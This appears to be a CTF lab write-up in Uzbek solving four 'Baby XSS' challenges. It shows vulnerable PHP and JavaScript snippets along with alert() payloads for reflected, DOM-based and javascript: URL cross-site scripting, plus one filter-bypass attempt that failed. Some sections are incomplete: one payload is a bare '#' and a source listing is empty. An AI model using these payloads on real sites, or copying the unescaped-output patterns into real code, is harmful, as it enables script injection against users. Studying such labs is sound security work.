





# Baby XSS 01
## Zaiflik turi: Reflected XSS

Bu qismda 
```echo $_GET["payload"];``` payload parametri hech qanday filterdan o'tkazilmasdan HTML ichiga chiqarilyapti.

Payload:
```<script>alert('XSS')</script>```



# Baby XSS 02
## Zaiflik turi: DOM-Based XSS

Bu qismda location.hash URL dagi # dan keyingi qiymatni oladi va innerHTML orqali sahifaga joylaydi. Injection point — URL fragment (#).
```
var q = location.hash.substring(1);
window.query.innerHTML = q == '' ? `Hello!` : (`Hello, ${decodeURI(q)}`);
```
Payload:
```#```



# Baby XSS 03
## Zaiflik turi: Reflected XSS

Bu qismda `<script>` yuborish ishlamaydi.
Bu yerda asosiy qism — $escaped qiymati HTML attribute ichida ishlatilyapti.
Source Code:



htmlspecialchars() <, >, ", ' kabi belgilarni encode qiladi.
Ammo `href` qiymatining o'zida JavaScript URL scheme ishlatiladi.

Payload:
```javascript:alert('XSS')```

HTML dagi `href` ko'rinishi `<a href="javascript:alert(document.domain)/friends">Friends</a>`
Frends bosilganda payload ishga tushadi.



# Baby XSS 04
## Zaiflik turi: Reflected XSS

Bu qismda filterdan foydalanilgan 
```preg_replace("/[`<>ux]\\/", "", $_GET['payload']);```
Filter `/[`<>ux`]\\/` bularni bloklaydi. Lekin `$,)(,}{,''` bulardan foydalansa bo'ladi.

Payload:
```${alert('XSS')}```

Ushbu payload ishlashi kerak edi lekin web site kodida kamchiliklar borligi sababli ishlamadi.
PHP xatosi: 
`TEST` payload yuborilgandaham natija chiqmadi.
```Warning: preg_replace(): No ending delimiter '/' found```



